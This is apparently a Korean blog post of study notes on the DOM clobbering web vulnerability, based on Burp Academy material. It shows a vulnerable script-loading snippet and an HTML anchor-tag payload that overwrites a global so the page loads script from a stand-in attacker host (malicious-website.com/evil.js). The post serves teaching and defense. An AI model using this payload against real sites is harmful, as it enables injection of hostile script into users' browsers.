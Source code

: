 ```yaml
---
layout: post
title: "Dom Clobbering 정리"
categories: [웹 취약점, Dom Clobbering, Dom 클로버링]
tags: [웹 취약점, Dom Clobbering, Dom 클로버링, Burp Academy]
toc: true
---
```


# 개요
- `Dom clobbering(돔 클로버링)` 취약점이 뭔지 정리하면서 이해해본다. 
- Dom clobbering이라는 이름은 Burp Suite 의 웹 브라우저 확장 프로그램인 Dom Invader에서 처음 봤다. 
- Dom clobbering도 XSS와 마찬가지로 취약점(또는 공격테크닉)의 한 종류라고 볼 수 있다. 
- clobbering(클로버링)이란 영단어 자체는 "(사람을)두들겨 패다", "(특히 경제적으로) 호된 처벌(손실)을 가하다"라는 뜻이 있다고 한다. 
- Dom을 두들겨 패는(?) 공격인가했는데, [위키피디아](https://en.wikipedia.org/wiki/Clobbering){:target="_blank"}에 의하면 컴퓨터 쪽에서 클로버링이라고 하면 "덮어쓰기"를 의미한다고 한다. 
- 따라서 Dom클로버링은 Dom의 동작을 덮어쓰기 하는 공격이라고 대충 예상할 수 있겠다. 

# 돔 클로버링이란?
- Burp Academy 의 설명을 보면 다음과 같이 되어 있다. 

```
DOM clobbering is a technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JavaScript on the page.
```

다음은 구글 번역. 

```
DOM 클로버링은 페이지에 HTML을 삽입하여 DOM을 조작하고 궁극적으로 페이지에서 JavaScript의 동작을 변경하는 기술입니다.
```

- 삽입한 HTML로 DOM을 조작하고, 궁극적으로는 페이지의 Javascript 동작을 변경한다! Javascript 동작을 변경한다면 결과적으로 XSS와 동일한 것을 할 수 있을 것 같다. 
- 실제로 XSS자체는 불가능하지만 id, name과 같은 HTML의 일부 속성을 변경할 수 있는 경우에 사용할 수 있는 테크닉이라고 한다. 
- 가장 전형적인 예는, 글로벌 변수를 덮어쓰기 위해서 앵커 엘렌먼트(a 태그)를 사용하는 것이라고 한다. 
- 그리고 이 앵커 엘레먼트가 웹 어플리케이션에서 안전하지 않게 사용되면(예를들어 다이내믹 script URL을 만드는등) 공격이 가능하다는 것 같다. 
- Dom 객체를 덮어쓰는 것으로 다른 자바스크립트 객체를 덮어쓰기 하는 것이 가능하다고 한다. 
- 예를들어, submit과 같은 이름을 덮어쓰면, HTML페이지의 Submit()함수의 동작을 변경할 수 있다! (어떻게 이런게 가능할까?)

# 어떻게 DOM-clobbering 취약점을 공격(exploit) 할 수 있는가?
예를 들어 어떤 페이지에 HTML을 삽입할 수가 있고, 이 페이지의 자바스크립트 코드는 다음과 같다고 하자. 

```js
<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```

이 페이지에 다음과 같은 HTML을 삽입하면 어떻게 될까?

```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```

두 개의 앵커 엘레먼트가 같은 ID(someObject)를 사용하고 있다. DOM은 이 두개를 DOM 컬렉션으로 그룹화한다. DOM 클로버링 벡터는 이 DOM 컬렉션으로 someObject(위의 자바스크립트 코드 `window.someObject` 를 보자.)의 참조를 덮어쓴다! name 속성은 someObject 객체의 url 속성을 덮어쓰기 위해 사용된다. 

오...아주 흥미롭다. 이 공격이 성립하려면 자바스크립트가 실행되기 전에 DOM 삽입(HTML삽입)이 먼저 이루어져야 할 것 같다. 먼저 DOM삽입이 이루어지면, 자바스크립트에서 참조하는 someObject는 삽입한 DOM의 somObject 컬렉션을 가리키게 될 것이다. 그리고 동적으로 script 엘레먼트가 생성되고, 이 script의 src속성은 somObject의 url 속성의 값(//malicious-website.com/evil.js)으로 채워진다. 그리고 이 script 엘레먼트는 HTML페이지의 body부분에 추가된다! 

그런데 앵커 엘레먼트가 왜 두 개가 있어야하지? 한개만 있으면 안되는 건가? 뭔가 이유가 있을 것 같다. 한번 실제로 테스트해보자. 위의 샘플 코드가 실제로 잘 동작하는지. 그리고 앵커 엘레먼트가 하나있을 때와 두개있을 때 어떻게 다른지.



# 참고 링크
- https://portswigger.net/web-security/dom-based/dom-clobbering
- https://intadd.tistory.com/143 (한글 포스팅은 여기밖에 없는 것 같다.)

